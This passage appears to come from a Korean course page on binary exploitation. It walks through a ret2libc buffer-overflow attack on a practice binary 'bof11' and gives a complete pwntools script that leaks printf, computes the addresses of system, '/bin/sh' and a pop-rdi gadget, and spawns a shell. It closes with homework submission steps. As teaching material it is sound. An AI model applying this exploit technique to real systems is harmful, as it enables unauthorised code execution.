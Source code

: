     `recvuntil(delims)` : delims 이 나올 때까지 데이터를 받아서 반환한다. 

    `p64(number)` : number 를 64 비트 형식으로 패킹(packing)한다. 

    `send(data)` : data 를 프로세스에 입력한다. 

23. 이 함수들을 사용해서 익스플로잇을 시도해보자. `recvuntil` 함수로 'printf() address : ' 라는 문자열까지 데이터를 받은 후 '\n' 까지 데이터를 받으면 정확하게 `printf` 함수의 주소값을 반환 받을 수 있다. 

    - `system 함수 주소값 = printf 주소값 + X = A + (-66672)`

    - `"/bin/sh" 주소값 = printf 주소값 + Y = A + 1275223`

    - `"pop rdi ; ret" 주소값 = printf 주소값 + Z = A + (-214782)`

24. 그러면 그 주소값을 활용하여 페이로드를 제작한 후 `send` 함수로 페이로드를 보내서 익스플로잇을 시도한다. 쉘이 실행될 것이 예상되는 시점이기 때문에 `interactive` 함수로 프로세스에 입력 스트림과 출력 스트림을 연다. 

    ```python
    from pwn import *
    
    p = process('./bof11')
    
    p.recvuntil('printf() address : ')
    printf_addr = p.recvuntil('\n')
    printf_addr = int(printf_addr, 16)
    
    sys_addr = printf_addr + (-66672)
    binsh = printf_addr + (1275223)
    poprdi = printf_addr + (-214782)
    distance_to_returnAddr = 24
    
    exploit = "A" * distance_to_returnAddr
    exploit += p64(poprdi)
    exploit += p64(binsh)
    exploit += p64(sys_addr)
    p.send(exploit)
    
    p.interactive()
    ```
    
---

## 과제 

### 과제 가이드 

1. [HW-9.md](HW-9/HW-9.md) 파일의 지시를 따르는 것이 과제이다. (발표를 하며 설명을 할 수 있어야 합니다)

2. 과제 파일은 [HW-9](HW-9) 디렉토리에 만들어야 한다. 

3. 과제 파일이 완성되면 다음 명령어를 참고하여 완성된 과제를 푸쉬한다. 

    ```shell
    cd /path/to/security
    git add .
    git commit -m "complete HW-9"
    git push -u origin master
    ```

4. 마지막으로 `pull requests` 를 한다. 
